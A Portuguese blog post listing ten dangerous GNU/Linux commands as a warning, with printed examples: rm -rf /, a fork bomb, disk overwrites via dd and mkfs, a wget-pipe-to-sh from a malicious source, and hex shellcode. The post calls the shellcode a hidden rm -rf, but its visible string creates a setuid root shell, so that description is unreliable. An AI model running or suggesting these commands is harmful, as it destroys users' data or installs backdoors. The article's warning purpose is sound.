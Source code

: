 ```yaml
---
layout: post
title: "10 comandos perigosos que você nunca deve executar no GNU/Linux"
date: '2015-06-06T09:49:00.001-07:00'
image: '/assets/img/linux/forkbomb.png'
description: "A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso."
main-class: 'linux'
tags:
- Linux
- GNU
- Terminal
- Comandos
introduction: "A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso."
---
```


![Fork Bomb](/assets/img/linux/forkbomb.png)

A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso, principalmente se tratando do usuário root, ou do usuário que pode assumir a maioria dos seus privilégios, o sudo. É necessário saber exatamente o que está fazendo. Esse artigo serve para alertá-los sobre alguns comandos do terminal, para não executá-los.


1. rm -rf

O comando rm -rf é um dos maneira mais rápida de eliminar uma pasta e seu conteúdo. Mas um pouco de erro de digitação ou ignorância pode resultar em danos no sistema irrecuperáveis. Algumas das opções usadas com o comando rm é: 

{% highlight bash %}
rm -rf
{% endhighlight %}

comando rm no Linux é usado para apagar arquivos.

* rm -r comando exclui a pasta de forma recursiva, mesmo a pasta vazia.
* comando rm -f remove "apenas ler o arquivo 'sem perguntar.
* rm-rf / : Força eliminação de tudo no diretório raiz.
* rm -rf * : Força eliminação de tudo no atual diretório diretório / trabalho.
* rm -rf : Força supressão do atual diretórios e subdiretórios.

Por isso, tenha cuidado quando você está executando o comando rm -rf. Para evitar um acidente de excluir arquivos com o comando 'rm', crie um alias de comando 'rm' como 'rm -i' ".bashrc", ele irá pedir-lhe para confirmar cada exclusão.

2. :(){:|:&};:

{% highlight bash %}
:(){:|:&};:
{% endhighlight %}

A descrição acima é o fork bomb. Ele opera através da definição de uma função chamada ':', que se chama duas vezes, uma no primeiro plano e uma vez no fundo. Ele mantém em execução novamente e novamente até que o sistema congela.


3. comando > /dev/sda

O comando acima escreve a saída do 'comando' no bloco /dev/sda. O comando acima escreve dados brutos e todos os arquivos no bloco serão substituídos por dados brutos, resultando em perda total dos dados no bloco.


4. mv diretorio /dev/null

Tudo movido para /dev/null, desaparece do sistema.

{% highlight bash %}
mv /home/user/* /dev/null
{% endhighlight %}

5. wget http://malicious_source -O- | sh

O comando acima irá baixar um script a partir de uma fonte mal-intencionada e, em seguida, executá-lo. Comando wget irá baixar o script e sh irá executar o script baixado.

> Nota: Você deve ser muito consciente da fonte de onde você está baixando pacotes e scripts. Só use esses scripts/aplicações que é baixado de uma fonte confiável.

6. mkfs.ext3 /dev/sda

{% highlight bash %}
mkfs.ext3 /dev/sda
{% endhighlight %}

O comando acima irá danificar os blocos do seu HD, e formatá-lo.

7. > arquivo

{% highlight bash %}
echo "Nada" > arquivo.conf
{% endhighlight %}

Qual arquivo importante do sistema, será substituído com esse redirecionador.

A forma exata de usá-lo é criar um arquivo backup:

{% highlight bash %}
cp arquivo arquivo.bkp
{% endhighlight %}

e redirecionar com 2 "maiores que", >> , se necessário, exemplo para um source.list:

{% highlight bash %}
echo "link pacote deb" >> /etc/apt/source.list
{% endhighlight %}


8. ^foo^bar

Este comando é usado para editar o comando anterior sem a necessidade de digitar novamente todo o comando novamente. Mas isso realmente pode ser problemático se você não tomou o risco de verificar cuidadosamente a mudança no comando original usando ^ ^ foo comando bar.


9. dd if=/dev/random of=/dev/sda

{% highlight bash %}
dd if=/dev/random of=/dev/sda
{% endhighlight %}

O comando acima irá acabar com como */dev/sda* e escrever dados aleatórios para o bloco. Claro! Seu sistema seria deixado na fase inconsistente e irrecuperável.


10. Comando invisível

O comando abaixo nada mais é que o primeiro comando deste artigo (rm-rf). Aqui os códigos estão escondidos em hex para que um usuário ignorante pode ser enganado. Executando o código abaixo em seu terminal e limpar sua partição raiz.

Este comando aqui mostra que a ameaça pode ser escondida e normalmente não detectável, às vezes. Você deve estar ciente de que você está fazendo e qual seria o resultado. Não compilar/rodar códigos a partir de uma fonte desconhecida.


{% highlight bash %}
 char esp[] __attribute__ ((section(“.text”))) /* e.s.p
 release */
 = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
 “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
 “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
 “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
 “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
 “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
 “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
 “cp -p /bin/sh /tmp/.beyond; chmod 4755
 /tmp/.beyond;”;
{% endhighlight %}


## NÃO EXECUTE NENHUM COMANDO ACIMA, CASO QUEIRA TESTÁ-LOS, UTILIZE UM A MÁQUINA VIRTUAL PARA TESTES

Via: http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/
